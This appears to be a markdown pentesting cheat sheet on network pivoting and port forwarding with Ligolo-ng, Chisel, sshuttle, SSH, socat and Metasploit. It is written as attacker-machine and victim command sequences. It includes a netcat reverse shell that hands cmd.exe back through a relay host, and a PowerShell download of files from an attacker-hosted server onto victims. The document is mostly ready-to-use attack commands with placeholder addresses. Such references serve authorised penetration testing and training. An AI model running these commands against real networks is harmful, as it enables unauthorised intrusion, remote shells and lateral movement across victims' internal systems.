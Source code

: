# Pivot 

Here we will look at some ways we can use to pivot within a network and thus be able to jump to other machines.

![Pivot Example](pivot1.jpg)

## Ligolo-ng

**Network 1**
````
- Attacker Machine -
$ ./server -selfcert
$ sudo ip tuntap add user kali mode tun <ligolo>
$ sudo ip link set <ligolo> up

- Victim 1 (PC 1) -
./agent -connect <IP-Attacker>:11601 -ignore-cert

- Attacker Machine -
(Ligolo): Type session and select the <session1>
(Ligolo): Type ifconfig to see the IP of Network 1
$ sudo ip route add <IP-Network>/<Subnet> dev <ligolo1>
(Ligolo): Start
````

**Network 2**
````
- Attacker Machine -
$ sudo ip tuntap add user kali mode tun <ligolo-double>
$ sudo ip link set <ligolo-double> up
On <session1> (Ligolo): listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp

- Victim 2 (PC 2) -
> agent.exe -connect <IP-Victim1(PC1)>:11601 -ignore-cert

- Attacker Machine -
(Ligolo): Type session and select the <session2>
(Ligolo): Type ifconfig to see the IP of Network 2
$ sudo ip route add <IP-Network>/<Subnet> dev <ligolo-double>
On <session1> (Ligolo2): tunnel_start --tun ligolo-double
````

**Network 3**
````
- Attacker Machine -
$ sudo ip tuntap add user kali mode tun <ligolo-triple>
$ sudo ip link set <ligolo-triple> up
On <session2> (Ligolo): listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp

- Victim 3 (PC 3) -
> agent.exe -connect <IP-Victim2(PC2)>:11601 -ignore-cert (IP of Second Machine)

- Attacker Machine -
(Ligolo): Type session and select the <session3>
(Ligolo): Type ifconfig to see the IP of Network 3
$ sudo ip route add <IP-Network>/<Subnet> dev <ligolo-triple>
On <session3> (Ligolo): tunnel_start --tun ligolo-triple
````

The process is the same for other networks.

**Reverse Shell and Transfer Files**

The process we are going to see here can be applied to any machine on any network.
Imagine that we want to obtain a reverse shell from Victim 3 (PC3).
````
- Attacker Machine -
$ nc -lvp <port-reverse>
On <session2> (Ligolo): listener_add --addr 0.0.0.0:<port-reverse> --to 127.0.0.1:<port-reverse> --tcp

- Victim 3 (PC 3) -
nc.exe <IP-Victim2(PC2)> <port-reverse> -e cmd.exe 
````

Imagine you want to transfer a file from the <Attacker-Machine> to Victim 4 (PC4).
````
- Attacker Machine -
$ python3 -m http.server <port-server>
On <session3> (Ligolo): listener_add --addr 0.0.0.0:<port-server> --to 127.0.0.1:<port-server> --tcp

- Victim 4 (PC 4) -
> Invoke-WebRequest -Uri http://<IP-Victim3(PC3)>:<port-server>/<file> -OutFile <file>
````

## Chisel 

We can also do this with chisel using socks5.
````
- Attacker Machine -
$ ./chisel server -v -p <PORT> --reverse
$ ./chisel server -v --reverse

- Victim 1 (PC 1) -
> chisel_windows.exe client <IP-Attacker>:<PORT> R:socks

- Attacker Machine -
$ edit /etc/proxychains.conf -> sock5 (127.0.0.1 1080)
$ proxychains ping <Netowrk1-Machines>

Tip:
$ proxychains /bin/bash
Everything done within this shell automatically goes through proxychains and the tunnel created.
You no longer need to add proxychains at the beginning.
````

## SSH Pivoting with Sshuttle
````
$ sudo apt-get install sshuttle
$ sudo sshuttle -r <user>@<IP-Victim1> <IP-Network1>/<subnet> -v 
````
With this command, sshuttle creates an entry in our iptables to redirect all traffic to the <IP-Network1>/<subnet> network through the pivot host.

# Port Forwarding

The concept of “Port Forwarding” is the forwarding of ports, that is, when we receive a connection on a specific port, we forward that connection to another port on a specific host.

## Chisel

Attacker Machine
````
$ ./chisel server -p 8000 --reverse
$ ./chisel server --reverse
````
Local PortForwarding (Victim Host)
````
> chisel client <IP-Attcker>:<Port> R:<PortForward_Attacker>:127.0.0.1:<PortForward_Victim>
````
Remote PortForwarding (Victim Host - Internal Network)
````
> chisel client <IP-Attcker>:<Port> R:<PortForward_Attacker>:<IP-InternalNetworkHost>:<PortForward_InternalNetworkHost>
````

## SSH

Local Port Forwarding
````
$ ssh -N -L <IP-Interface(Optional):<Port-Attacker>:<IP-Victim>:<Port-Victim> <user>@<IP-Victim>
$ ssh -N -L <Port-Attacker>:<IP-Victim>:<Port-Victim> <user>@<IP-Victim>
$ ssh -L <IP-Interface(Optional):<Port-Attacker>:<IP-Victim>:<Port-Victim> <user>@<IP-Victim>
$ ssh -L <Port-Attacker>:<IP-Victim>:<Port-Victim> <user>@<IP-Victim>
$ ssh -L 1234:127.0.0.1:1234 <user>@<IP-Victim>
$ ssh -L 1234:<IP-InternalNetworkHost>:1234 <user>@<IP-Victim>
````
Remote Port Forwarding
````
$ ssh -N -R <IP-VictimSSH>:<Port-VictimSSH>:<IP-InternalNetworkHost>:<Port-Victim> <user>@<IP-Victim>
$ ssh -N -R 192.168.67.1:4445:192.168.67.128:445 user@192.168.67.1
````
The -N can be omitted, as it doesn't enable ssh command execution, it's there to be useful when forwarding ports.

## Socat
````
$ socat TCP-LISTEN:[victim_port],fork,reuseaddr TCP:[redirect_ip]:[exposed_port]
````

## Metasploit

In this case, you need the meterpreter shell
````
portfwd add –l <local_port_attacker> –p <port_victim> –r <target_host>
````
